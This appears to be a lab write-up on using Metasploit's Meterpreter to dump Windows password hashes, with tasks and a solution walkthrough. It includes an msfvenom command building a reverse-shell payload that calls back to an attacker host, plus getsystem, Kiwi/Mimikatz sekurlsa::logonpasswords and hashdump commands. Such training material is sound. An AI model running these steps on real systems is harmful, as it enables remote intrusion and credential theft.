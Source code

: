 # Use Meterpreter To Dump Password Hashes Stored In The SAM Database And LSASS
In cybersecurity, understanding how attackers extract credentials is key to effective defense. Meterpreter, a post-exploitation tool, enables attackers to access compromised Windows systems and extract sensitive data like password hashes. Through Meterpreter, tools like Mimikatz can dump password hashes from LSASS memory and the SAM database

## References
- [Meterpreter Basics](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)
- [Mimikatz](https://www.offsec.com/metasploit-unleashed/mimikatz/)

## Tasks
- Launch Metasploit and use an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine
- Once you have a Meterpreter session, use the "getsystem" command to escalate privileges to SYSTEM level
- Use the "getuid" command to display the current user's privileges
- Use Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory
- Use the "hashdump" command in Meterpreter to dump password hashes from the SAM database


## Solutions
1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
4. Download the reverse shell in the Windows 10 VM and run it as an administrator
5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
7. To load Mimikatz in Meterpreter session, use `load kiwi`
8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
9. To dump password hashes from the SAM database, use `hashdump`

Screenshot of how Kiwi is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)

Screenshot of how hashdump is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/5ded7cc0-7b98-4ad2-8e50-a35ff5841958)
